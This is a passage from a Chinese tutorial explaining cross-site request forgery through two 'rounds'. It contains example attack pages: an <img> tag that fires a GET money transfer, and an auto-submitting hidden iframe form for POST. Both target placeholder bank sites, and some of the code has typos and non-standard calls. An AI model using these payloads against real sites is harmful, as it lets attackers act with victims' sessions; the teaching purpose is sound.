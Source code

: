 *危险网站B*：它里面有一段HTML的代码如下：
```html
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
    <title>csrf attack</title>
</head>
<body>
  <img src="http://bank.example.com/transfer.do?moeny=100&to=1"/>
</body>
</html>
```

你登录了银行网站A，然后访问了危险网站B。啊哈，你账户里面的钱被窃取了100元。见鬼了，为什么会这样？这里银行使用GET请求更新资源，在你登录了银行网站A的前提下，访问网站B上的``<img>``就能以你的身份（浏览器中你的银行网站A的Cookie中的信息）以GET的方式发起转账操作，请求了银行的服务器。由于有合法的身份标识，银行网站服务器收到请求后立即进行转账操作。

### 2. 回合Ⅱ

好吧，银行决定采用POST方式来发送请求，后台只接受POST请求来进行更新资源的操作，前台采用``Form``表单的方式进行POST请求。

```html
<form action="transfer.do" method="POST">
　　ToBankId: <input type="text" name="to" />
　　Money: <input type="text" name="money" />
　　<input type="submit" value="Transfer" />
</form>

```

这样感觉安全了，但是攻击者也做出相应的变化，将网站B的页面改成如下内容：

```html
<html>
<head>
	<script type="text/javascript">
		function steal(){
	    	iframe = document.frames["steal"];
	　　    iframe.document.Submit("transfer");
	　　}
	</script>
</head>
<body onload="steal()">
	<iframe name="steal" display="none">
		<form method="POST" name="transfer"　action="http://www.myBank.com/transfer.do">
　　　　		<input type="hidden" name="to" value="1"/>
    		<input type="text" name="money" value="100"/>
　　　　	</form>
　　	</iframe>
</body>
</html>
```

如果用户仍是继续上面的操作，发现钱同样没有了，因为危险网站B暗地里又以你的身份发送了POST请求到银行。

[《Web安全测试之跨站请求伪造(CSRF)篇》](http://netsecurity.51cto.com/art/200811/97281_1.htm)<sup>[4]</sup> 和 [《深入解析跨站请求伪造漏洞：实例讲解》](http://netsecurity.51cto.com/art/200812/102925_1.htm)<sup>[5]</sup> 中还有更多的实例讲解。
